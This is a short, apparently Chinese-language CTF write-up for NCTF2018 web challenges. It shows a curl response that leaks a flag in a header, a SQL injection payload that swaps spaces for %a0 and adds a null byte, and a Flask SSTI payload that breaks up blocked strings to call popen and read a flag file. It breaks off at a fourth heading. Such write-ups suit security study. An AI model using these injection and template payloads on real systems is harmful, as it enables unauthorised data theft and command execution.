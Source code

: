 # NCTF2018

## 签到题

访问环境的时候很慢然后跳到了**secret.php**

curl查看历史记录就可看到**flag**

```bash
xlccccc@xl-pc:~$ curl -v 1.14.71.254:28584
*   Trying 1.14.71.254:28584...
* TCP_NODELAY set
* Connected to 1.14.71.254 (1.14.71.254) port 28584 (#0)
> GET / HTTP/1.1
> Host: 1.14.71.254:28584
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Wed, 30 Nov 2022 14:49:24 GMT
< Server: Apache/2.4.18 (Ubuntu)
< nctf2018: flag{w3lc0m3_t0_nctf2018hhhhhhhhhhhh}
< location: ./secret.php
< Content-Length: 22
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 1.14.71.254 left intact
flag{this_is_not_flag}
```

## 滴!晨跑打卡

简单的sql注入

```
1'%a0union%a0select%a01,2,flag,4%a0from%a0pcnumber;%00
```

## flask真香

结合题目和页面上渲染出来的`/`后任意字符串，可以猜到是**SSTI**

同样一个简单的字符串拼接**SSTI**

```python
http://1.14.71.254:28651/{{""["__cla""ss__"]["__m""ro__"][-1]["__subcl""asses__"]()[228]["__in""it__"].__globals__['po''pen']('cat /Th1s_is__F1114g').read()}}
```

## 小绿草之最强大脑
